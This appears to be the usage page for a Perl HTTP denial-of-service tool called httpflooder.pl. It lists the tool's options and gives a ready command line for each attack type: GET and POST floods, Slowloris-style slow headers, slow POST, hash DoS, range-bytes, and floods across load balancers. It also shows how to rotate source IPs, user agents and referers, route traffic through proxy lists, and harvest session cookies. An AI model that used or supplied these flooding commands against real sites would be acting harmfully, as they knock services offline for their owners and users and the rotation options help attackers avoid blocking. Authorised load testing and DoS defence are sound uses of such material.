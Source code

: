 Usage

bunyamin$ perl httpflooder.pl --help HTTP Flooder, v1.0 Usage: httpflooder.pl [options] [--attack] -a : Attack Type GF => GET Flood, PF => POST Flood, SH => Slow Headers, SP => Slow POST, HD => Hash DoS, MX => GET/POST Flood, RB => Range Bytes, HF => HTTP Header Fuzz, SHF => Slow Header Fuzz BF => MX Flood over Balancer [--host] -h : Host for attack [--cookie] -c : Cookie for HTTP Request Header [--url] -u : Request URL [--urls] : Request URL files [--port] -p : Port for HTTP request [--https] : SSL support [--ip] -i : Source IP [--ips] : Source IPs files [--useragent] -ua : User-Agent for HTTP Request Header [--useragents] : User-Agent files for HTTP Request Header [--referer] : Referer header for HTTP Request [--referers] : Referer header files for HTTP Requests [--proxy_file] : Proxy IP list fpr HTTP request over proxy [--keepalive] : Connection : Keep-Alive Header [--closehead] : Close header (added CRLF) [--ulength] : Length for random generated url [--extension] : File extension for random generated url [--clength] : Content-Length for slowpost [--thread] -t : Thread number for tool. [--balancer] : User balancer [--custom-cookie] : Extract custom Cookie value in response [--basic-auth] : Basic Authentication for HTTP Request [--num] -n : Connection number for tool. [--interval] : Add headers/data/param per request for Slow Headers/POST/Params attack. [--delay] : Delay per additional header in a request for Slow Headers attack. [--duration] : Duration for test (second) [--verbose] -v : verbose output 1 => Thread, Host, IP, Response Code 2 => Request 3 => Request, Response [--help] : Display usage and options

HTTPFlooder does not support IP Spoofing. If you want to attack with many different IP addresses, virtual IP addresses need to be defined within the operating system. For this purpose, each virtual IP is added as a single line within a file. The following example shows the usage of HTTPFlooder using various IP addresses.

bunyamin$ perl httpflooder.pl -a GF -h www.site.com --ips ips.txt --urls urls.txt -t 1 -n 1

In this GET Flood attack, the IP addresses are randomly chosen and used from the ips.txt file.
Attack Types
GET Flood

bunyamin$ perl httpflooder.pl -a GF -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000

-t parameter means; 50 thread work for this attack.

-n parameter means; 1000 HTTP GET request with 50 threads.

If ips.txt file contains 10 IP addresses, 5 threads and 100 HTTP requests are created for each IP address.
POST Flood

bunyamin$ perl httpflooder.pl -a PF -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000
Slow Headers (Slowloris)

bunyamin$ perl httpflooder.pl -a SH -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000 --interval 10 --delay 2 --keepalive

--interval will add 10 extra headers per request

--delay delay value for each header adding operation
Slow POST

bunyamin$ perl httpflooder.pl -a SP -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000 --clength 20 --delay 2 --keepalive -v 3

--clength means “Content-Length”. So it will add 20 characters in POST body.

--delay delay value for each POST body character adding operation.
Hash DoS

bunyamin$ perl httpflooder.pl -a HD -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000 --interval 1000

--interval will add post param and value until interval (a1=b1&...&a1000=b1000)
MX Flood (GET/POST Flood)

You can use GET and POST flood at the same time with this type. Just need to prepare “urls.txt” file like below.

/get.jsp /post.jsp#param1=value1&param2=value

bunyamin$ perl httpflooder.pl -a MX -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000
Range Bytes

bunyamin$ perl httpflooder.pl -a RB -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000
MX Flood over Balancer

urls.txt file contains the scenario of the attack as in the MX flood attack type. So the scenarios in the urls.txt will be executed as much as the count which stated with -n/-num parameter.

sample url.txt file;

/index.jsp /login.jsp#username=value1&password=value /product.jsp?cmd=add#productID=1

bunyamin$ perl httpflooder.pl -a BF -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000 --balancer

--balancer option will collect all the “Set-Cookie” value for the using in next request.
Features
SSL Support

bunyamin$ perl httpflooder.pl -a GF -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000 --https
Cookie Based Request

bunyamin$ perl httpflooder.pl -a GF -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000 --cookie=”JSESSIONID=123442FDJd34234343dfddDDF”
Custom Cookie

You can use this option with MX Flood over balancer (Attack type is BF). It should collect the custom cookie in HTTP Response, not in Set-Cookie. Because “--balancer” option will collect cookie in “Set-Cookie” option.

For example;

```
document.cookie=’BNYID=RTFRT482378jdmbfd34543543’;

```

bunyamin$ perl httpflooder.pl -a GF -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000 --custom-cookie BNYID
Basic Authentication

bunyamin$ perl httpflooder.pl -a GF -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000 --basic-auth=“bunyamin:123456”
Proxy Support

Need to prepare proxies.txt file for Proxy IP and Port like beloww

122.31.34.13:8080 123.56.111.7:8181

bunyamin$ perl httpflooder.pl -a GF -h www.site.com --ips ips.txt --urls urls.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000 --proxy_file proxies.txt
Random Generated URL

bunyamin$ perl httpflooder.pl -a GF -h www.site.com --ips ips.txt --useragents useragents.txt --referers referers.txt -t 50 -n 1000 --ulength 20

It will generate URL with 20 character randomly for each request.
